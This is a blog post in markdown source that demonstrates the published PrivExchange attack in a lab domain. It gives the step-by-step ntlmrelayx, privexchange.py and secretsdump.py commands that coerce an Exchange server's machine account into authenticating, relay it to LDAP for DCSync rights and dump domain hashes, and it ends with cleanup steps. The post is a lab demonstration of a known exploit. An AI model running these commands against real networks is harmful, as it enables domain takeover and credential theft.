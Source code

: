 ```yaml
---
layout: single
classes: wide
title:  "Exploiting PrivExchange"
date:   2019-04-11 10:02:00 +0200
---
```


This is not my discovery, and is merely an expansion and demo of how to use the PrivExchange exploit. See [_dirkjan](https://twitter.com/_dirkjan)'s blog post [Abusing Exchange: One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/) for the original discovery.

## Overview

The PrivExchange tool simply logs in on Exchange Web Services to subscribe to push notifications to a specific host. This will make the Exchange server's machine account send its NTLMv2 hash back to the attacker host. As this machine account usually has severely high privileges in the domain, it can then be relayed to the domain controller to gain domain privilege escalation.

## Prerequisites

- [PrivExchange](https://github.com/dirkjanm/PrivExchange.git) and [Impacket](https://github.com/SecureAuthCorp/impacket) toolkit installed.
- Domain Name, DC IP, Exchange Server, and your Attack host IP.
- A host on the network with the ability to run your tools.
- A valid domain user account and password, or NTLM hash.
- A valid Exchange Server hostname or IP address. We can check this with `pth-net` from [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)

      pth-net rpc group members "Exchange Servers" -I dc01.lab.local -U lab/buff

![pth-net rpc](../assets/img/privexchange/rpc.jpg)

### The different components of the attack

- `lab.local` - Domain name
- `dc01.lab.local` - Domain controller
- `mail01.lab.local` - Exchange server
- `192.168.0.142` - Attacker host

## Exploitation

Run `ntlmrelayx` with the DC IP that we want to relay to, and specify a domain user we control, who we want to escalate privileges for.

    ntlmrelayx.py -t ldap://dc01.lab.local --escalate-user buff

![escalate-user buff](../assets/img/privexchange/2019-04-11-10-27-34.png)

Use the "PrivExchange” tool to send push notification to your own NTLM Relay server. The `-ah` parameter is the `attacking host` and the following parameter is the Exchange server. We also have to give it the domain, username and password for the user we control. Note that the user must have a mailbox connected.

    python privexchange.py -ah 192.168.0.142 mail01.lab.local -d lab.local -u chry -p Welcome1

![](../assets/img/privexchange/2019-04-11-10-33-01.png)

This should take exactly one minute. An HTTP connection comes in from the exchange server, and we request authentication from it. It replyed with the NTLMv2 hash of the `MAIL01$` machine account. We capture and relay the credentials over LDAP to the domain controller, which is used to modify the ACL privileges of our user to get DCsync rights.

![](../assets/img/privexchange/2019-04-11-11-11-36.png)

Once the user in our control obtains `Replication-Get-Changes-All` privileges in the domain we can run `secretsdump.py` to dump hashes from the domain controller.

    secretsdump.py lab/buff@192.168.0.2 -ntds ntds -history -just-dc-ntlm

![](../assets/img/privexchange/2019-04-11-13-03-50.png)

### Wireshark

We first see the API call on HTTPS go to the Exchange server. Followed by 1 minute of waiting, we see a connection negotitation happen initiated from the Exchange server, followed by our Kali box POSTing the `/privexchange` URL.

![](../assets/img/privexchange/2019-04-11-10-44-01.png)

Followed by the relay to LDAP
![](../assets/img/privexchange/2019-04-11-12-31-08.png)

## Cleanup

### Using aclpwn

Any ACL attack using `ntlmrelayx` saves a restore file that can be provided to [aclpwn.py](https://github.com/fox-it/aclpwn.py) to restore the original permissions on the domain object.

    python aclpwn.py --restore ../aclpwn-20190319-125741.restore

![](../assets/img/privexchange/2019-04-11-12-27-42.png)

### Using GUI

In "Active Directory Users and Computers”, enable Advanced Features (in View Menu), Right-click [Domain -> Security -> Advanced]. Then look for the domain username account that you just gave "Replicating Directory Changes” and "Replicating Directory Changes All” privileges to and remove those Permission entries in the "Allow” checkboxes.

We can only use ADSI Edit to view the properties of the domain object, where we can see that the domain user account we gave DCsync privileges have those privileges:

![](../assets/img/privexchange/2019-04-11-10-42-24.png)

## Links

- [https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
- [https://github.com/dirkjanm/PrivExchange](https://github.com/dirkjanm/PrivExchange) - Python
- [https://github.com/G0ldenGunSec/PowerPriv](https://github.com/G0ldenGunSec/PowerPriv) - Powershell version
- [https://github.com/panagioto/SharpExchangePriv](https://github.com/panagioto/SharpExchangePriv) - C#